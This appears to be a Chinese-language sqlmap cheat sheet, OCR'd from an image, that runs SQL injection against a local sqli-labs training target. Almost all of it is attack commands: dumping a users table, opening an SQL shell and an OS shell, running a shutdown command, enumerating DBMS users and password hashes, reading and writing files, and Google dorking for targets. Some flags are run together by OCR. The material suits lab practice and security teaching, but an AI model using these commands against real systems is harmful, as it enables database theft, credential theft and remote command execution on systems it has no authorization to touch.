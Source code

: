 ```
python sqlmap.py -u "172.16.11.29:60080/sqli-labs/less-1/?id=1" --dbms mysql -p id --random-agent --risk 3 --level 5 -D security -T users --columns
```

### 获取表中数据

```
python sqlmap.py -u "172.16.11.29:60080/sqli-labs/less-1/?id=1" --dbms mysql -p id --random-agent --risk 3 --level 5 -D security -T users --dump或者dump-all //获取当前数据库中所有的记录
```

### 获取sql-shell

```
python sqlmap.py -u "172.16.11.29:60080/sqli-labs/less-1/?id=1" --dbms mysql -p id --random-agent --risk 3 --level 5 --sql-shell//获取一个sql-shell环境 功能受限，只能查.....
```

### 获取os-shell

```
python sqlmap.py -u "172.16.11.29:60080/sqli-labs/less-1/?id=1" --dbms mysql -p id --random-agent --risk 3 --level 5 --os-shell
```

### 执行os命令

```
python sqlmap.py -u "172.16.11.29:60080/sqli-labs/less-1/?id=1" --dbms mysql -p id --random-agent --risk 3 --level 5 --os-cmd=shutdown
```

## 其他常用指令

```
--method post|get--data "uname=123&passwd=123"  //指定post表单上传的数据
-p uname //指定注入的字段
--technique=B //基于布尔的盲注    
T //时间    
E // error    
U //union    
S //多语句查询
-m 1.txt //从文件中获取多个url
-r url.txt //从文件中加载http请求
-g "inurl:\.php?id=1\" googlehacking--form //这样就不需要指定--data了，软件会自动去寻找表单。get/post方法均可
--dbs //枚举所有的数据库
--users //所有用户
--current-user //当前用户
--passwords //枚举数据库管理系统的密码
--privileges //枚举DMBMS的用户权限
--roles //枚举DBMS用户的角色
--file-read--file-write
```
